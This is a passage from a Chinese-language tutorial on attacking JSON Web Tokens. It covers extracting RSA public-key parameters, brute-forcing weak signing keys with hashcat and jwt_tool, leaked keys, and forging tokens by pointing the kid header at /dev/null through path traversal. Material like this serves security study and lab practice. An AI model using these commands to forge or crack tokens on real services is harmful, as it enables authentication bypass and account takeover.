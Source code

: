 遇到第一种情况我们需要自己生成一个证书从里面提取出公钥来获取模数，或者通过模数得到公钥。

```python
from Crypto.PublicKey import RSA

with open("publickey.crt", "r") as file:
    key = RSA.importKey(file.read())
    print("n:", hex(key.n))
    print("e:", hex(key.e))
```

第二种情况参见“JWK 中 JKU/X5U 注入”小结生成证书，获取公钥即可。

### 弱密匙

**密匙爆破**

使用对称加密就尝试爆破，只要密钥加密的结果和当前一致就认为密钥相同。爆不爆的出来看命。

爆破工具：

-   John the Rippe
-   Hashcat
-   [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)
-   [jwt-heartbreaker](https://github.com/wallarm/jwt-heartbreaker)
-   [jwt\_tool](https://github.com/ticarpi/jwt_tool/)

hashcat

```plaintext
hashcat -a 0 -m 16500 <JWT File> <Dict File>
```

jwt\_tool

```plaintext
python3 .\jwt_tool.py <JWT> -C -d <Dict>
```

**密匙泄露**

签名算法采用对称加密，通过密钥泄露，通过已知密钥生成签名。密钥泄露点有可能是在 Client 端或源码硬编码，服务端通过某些漏洞读取服务器文件数据得到密钥。

**可以指定服务器上文件当作密钥来验证**。

```python
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
python3 jwt_tool.py <JWT> -I -hc kid -hv "/dev/null" -S hs256 -p ""
```

### 过于相信传输的数据

跟其他 Web 漏洞一样，如果取其中 JWT 值，不做验证交给其他功能使用，就会产生安全问题。

## 靶场练习

靶场题目大都重复的，只做不重复的题。

### jwt-lab
